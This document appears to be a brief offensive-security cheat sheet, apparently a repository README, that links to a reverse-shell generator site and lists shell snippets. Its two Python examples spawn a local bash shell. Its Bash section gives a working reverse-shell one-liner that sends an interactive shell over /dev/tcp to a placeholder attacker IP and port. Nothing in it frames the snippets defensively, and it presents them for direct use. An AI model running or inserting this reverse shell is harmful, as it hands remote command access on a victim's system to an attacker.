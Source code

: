 # Resources
- http://www.revshells.com

---

# Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

# Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

# BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```
